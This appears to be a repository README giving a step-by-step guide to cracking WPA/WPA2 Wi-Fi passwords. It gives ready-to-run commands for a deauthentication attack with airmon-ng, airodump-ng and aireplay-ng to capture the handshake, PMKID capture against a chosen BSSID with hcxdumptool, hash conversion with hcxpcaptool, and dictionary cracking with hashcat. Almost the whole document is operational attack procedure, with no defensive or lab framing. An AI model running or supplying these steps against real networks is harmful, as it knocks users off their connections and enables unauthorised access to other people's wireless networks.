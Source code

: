 # WPA/WPA2 PSK Auth

You need to capture a 4-way WPA/WPA2 auth handshake, likely using a deauth attack. You will need to install `airmon-ng`, `airodump-ng`, and `aireplay-ng`.

First off create a monitoring interface for wlan0:

* `airmon-ng start wlan0`

Second capture packets to file from channel 11

* `airodump-ng mon0 --write capture.pcap -c 11`

Third deauth attack against BSSID bb:bb:bb:bb:bb:bb

* `aireplay-ng --deauth 0 -a bb:bb:bb:bb:bb:bb mon0`

Fourth: wait some time

Fifth: convert hashes, you should use `baking.sh`


# WPA2 PKMID 

Doesn't require you to capture the 4-way handshake, you will want to download the following:

* https://github.com/ZerBea/hcxtools.git
* https://github.com/ZerBea/hcxdumptool


First start listening for broadcasting access points ot locate the BSSID you want to target

* `airodump-ng <interface>`

Second place target BSSID into a fil, and start hcxdumptool to capture the PKMID

* `hcxdumptool -i <interface> --filterlist_ap=bssid_file.txt --filtermode=2 --enable_status=2 -o pmkid.pcap`

Third with the BSSID PKMID captured, extract into hashcat format for cracking

* `hcxpcaptool -z wpa2_pmkid_hash.txt pmkid.pcap`

Fourth start flicking your wrists

* `hashcat -a 0 -m 16800 -w 4 wpa2_pmkid_hash.txt dict.txt`

# Filtration

You can run the following against hccapx files to get a list of associated ESSIDs:

```shell
$>  hcxhashtool -i combined.hccapx -E combined.hccapx.essid_list -o combined.hccapx2
```